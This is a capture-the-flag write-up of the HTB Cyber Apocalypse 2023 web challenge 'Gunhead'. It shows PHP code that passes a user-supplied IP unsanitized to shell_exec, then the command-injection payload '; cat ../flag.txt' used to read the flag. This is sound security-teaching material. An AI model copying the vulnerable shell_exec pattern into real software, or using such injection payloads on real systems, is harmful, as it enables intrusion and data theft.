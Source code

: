 ```yaml
---
description: >-
  Write Up For HTB Cyber Apocalypse CTF 2023 Web challenge Gunhead
title: Gunhead
date: 2023-03-23 21:00:00 -0400
categories: [CTFs, HTB Cyber Apocalypse CTF 2023, Web Exploitation]
tags: [web-exploitation, php]
---
```


During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

-----

## Overview

In this blog post, we'll dive into Gunhead, a web exploitation challenge that involves unraveling the inner workings of a PHP-based application. Join me as I guide you through my journey of understanding the challenge, navigating the user interface, examining the source code, and ultimately exploiting a vulnerability to obtain the flag.


## Understanding the Challenge

Before we dive into the solution, let's familiarize ourselves with the challenge. The code provided for the challenge is written in PHP, and we are given access to the source code, which makes the task relatively easier. The main user interface (UI) component we'll focus on is the command interface.

Looking at the code, we find a file called `script.js` located at `challenge/static/js/script.js`. This script is responsible for sending commands to the server. The only command used to communicate with the server is `/ping`. 

To understand how this command is handled on the server side, we can examine the code in `challenge/index.php` and the `ReconController` class in `challenge/controllers/ReconController.php`.


Routing configuration in `challenge/index.php`, that points toward the `ReconController` controller.
```php
$router->new('POST', '/api/ping', 'ReconController@ping')
```

In `ReconController.php`, we see a function called `ping` that handles the `/api/ping` route. Let's take a look at the code:

```php
{% raw %}public function ping($router)
{
	$jsonBody = json_decode(file_get_contents('php://input'), true);
	if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
	{
		return $router->jsonify(['message' => 'Insufficient parameters!']);
	}
	$pingResult = new ReconModel($jsonBody['ip']);
	return $router->jsonify(['output' => $pingResult->getOutput()]);
}{% endraw %}
```

This code receives a JSON payload containing an `ip` field via a POST request. It checks if the `ip` field is present and then creates an instance of the `ReconModel` class, passing the `ip` as a parameter. Finally, it returns the output of the `getOutput()` method of the `ReconModel` class.


----

Let's examine the `ReconModel` class located at `challenge/models/ReconModel.php`. This class receives an `ip` parameter and has a `getOutput()` method:

```php
{% raw %}
class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }
    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}{% endraw %}
```

In this code, we can see that the user-provided `ip` is directly used in a command executed by the `shell_exec()` function. This presents a serious security vulnerability, as the input is not properly sanitized. Even more concerning, the source code includes a comment questioning whether the user input should be sanitized.


## Exploiting the Vulnerability

Now that we understand the vulnerability, let's exploit it to obtain the flag. We can inject arbitrary commands using the `ip` parameter, as there is no input verification or sanitization. We know the location of the `flag.txt` file due to information in the Docker file.

To retrieve the flag, we need to send a **POST** request to `/api/ping` with the following JSON body:

```json
{% raw %}
{
    "ip": "; cat ../flag.txt"
}
{% endraw %}
```

Alternatively, we can use the web UI and enter the following command:

```
/ping ; cat ../flag.txt
```

By appending the `; cat ../flag.txt` command, we can execute the `cat` command to read the contents of the `flag.txt` file. The semicolon (`;`) is a UNIX shell item used to separate commands, allowing us to chain multiple commands together.


Upon executing the exploit, we receive the flag:

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

![Image of Successful Exploit](https://imgur.com/2qJrLN2.png)

## Conclusion

Congratulations on solving the Gunhead web challenge in the HTB Cyber Apocalypse CTF 2023! We explored the provided source code, identified the vulnerability in the input handling, and used an injection attack to retrieve the flag. Remember, it's crucial to sanitize user input to prevent security vulnerabilities like the one we encountered in this challenge. Always prioritize security when developing web applications.

I hope this write-up has been helpful in understanding the solution to the challenge. Keep practicing and exploring more CTF challenges to sharpen your skills.